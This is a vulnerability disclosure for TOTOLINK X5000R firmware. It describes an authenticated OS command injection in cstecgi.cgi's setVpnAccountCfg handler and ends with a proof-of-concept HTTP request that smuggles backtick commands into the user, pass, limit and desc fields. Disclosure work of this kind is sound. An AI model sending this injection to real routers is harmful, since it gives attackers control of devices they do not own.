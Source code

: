# totolink X5000r
## Firmware version
totolink X5000r devices through v9.1.0cu.2350_b20230313
## description
In totolink X5000r v9.1.0cu.2350_b20230313, the file /web/cgi-bin/cstecgi.cgi contains a OS command injection vulnerability in `setVpnAccountCfg`. Authenicated Attackers can send malicious packet to execute arbitary commands.
## detail
In function `setVpnAccountCfg` (at 0x414734), binary /web/cgi-bin/cstecgi.cgi. These parameters ( `user`, `pass`, `limit`, `desc`) are passed to the `Uci_set_str` function without any check.
![](setVpnAccountCfg.png)
The `Uci_Set_Str` function is located in `libcscommon.so`. This function formats the fourth parameter into a string and passes it to the `CsteSystem` function, which eventually calls the `execv` function to execute it.

![](Uci_Set_Str().png)

![](CsteSystem().png)

## POC
```txt
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 225
Origin: http://192.168.0.1
Connection: keep-alive
Referer: http://192.168.0.1/advance/account.html?timestamp=1733739239593

{"type":"3","user":"123`ls>/tmp/1`","pass":"123`ls>/tmp/2`","limit":"1`ls>/tmp/3`","desc":"123`ls>/tmp/4`","addEffect":"1","ipaddr":"","subnet":[{"ipaddr":"","mask":""}],"accessLimit":"0","topicurl":"setVpnAccountCfg","token":"022874401695c70dc41bee226599ed69"}
```

